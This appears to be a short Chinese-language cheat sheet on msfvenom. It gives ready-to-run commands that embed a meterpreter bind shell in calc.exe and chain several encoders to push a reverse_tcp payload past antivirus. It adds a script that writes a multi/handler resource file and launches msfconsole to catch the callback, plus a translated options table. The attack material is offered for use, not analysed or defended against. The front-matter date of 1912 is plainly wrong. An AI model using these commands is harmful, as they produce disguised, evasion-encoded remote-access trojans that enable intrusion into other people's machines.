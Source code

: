 title: MSFVENOM
date: 1912-12
categories:
  - kali
tags: [笔记]
photos:
---
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe
PAYLOAD windows/meterpreter/reverse_tcp
$MSFVENOM -p "$PAYLOAD" LHOST="$IP" LPORT="$PORT" EXITFUNC=thread -f raw | 
$MSFVENOM -e x86/shikata_ga_nai -i $ITER -f raw 2>/dev/null | 
$MSFVENOM -e x86/jmp_call_additive -i $ITER -a x86 --platform linux -f raw 2>/dev/null | 
$MSFVENOM -e x86/call4_dword_xor -i $ITER -a x86 --platform win -f raw 2>/dev/null |  
$MSFVENOM -e x86/shikata_ga_nai -i $ITER -a x86 --platform win -f c > msf.c 2>/dev/null
 
 github/metasploitavevasion
<!--more-->                                                                                                                          
    echo ""
    echo 'use exploit/multi/handler' >> msfhandler.rc
    echo "set payload $PAYLOAD" >> msfhandler.rc
    echo "set LHOST $IP" >> msfhandler.rc
    echo "set LPORT $PORT" >> msfhandler.rc                                               
    echo 'exploit' >> msfhandler.rc
    $MSFCONSOLE -r msfhandler.rc
Options:
    -p, --payload    <payload>       指定需要使用的payload(攻击荷载)。如果需要使用自定义的payload，请使用&#039;-&#039;或者stdin指定
    -l, --list       [module_type]   列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, all
    -n, --nopsled    <length>        为payload预先指定一个NOP滑动长度
    -f, --format     <format>        指定输出格式 (使用 --help-formats 来获取msf支持的输出格式列表)
    -e, --encoder    [encoder]       指定需要使用的encoder（编码器）
    -a, --arch       <architecture>  指定payload的目标架构
        --platform   <platform>      指定payload的目标平台
    -s, --space      <length>        设定有效攻击荷载的最大长度
    -b, --bad-chars  <list>          设定规避字符集，比如: &#039;\x00\xff&#039;
    -i, --iterations <count>         指定payload的编码次数
    -c, --add-code   <path>          指定一个附加的win32 shellcode文件
    -x, --template   <path>          指定一个自定义的可执行文件作为模板
    -k, --keep                       保护模板程序的动作，注入的payload作为一个新的进程运行
        --payload-options            列举payload的标准选项
    -o, --out   <path>               保存payload
    -v, --var-name <name>            指定一个自定义的变量，以确定输出格式
        --shellest                   最小化生成payload
    -h, --help                       查看帮助选项
        --help-formats               查看msf支持的输出格式列表

/usr/share/metasploit-framework/data/templates
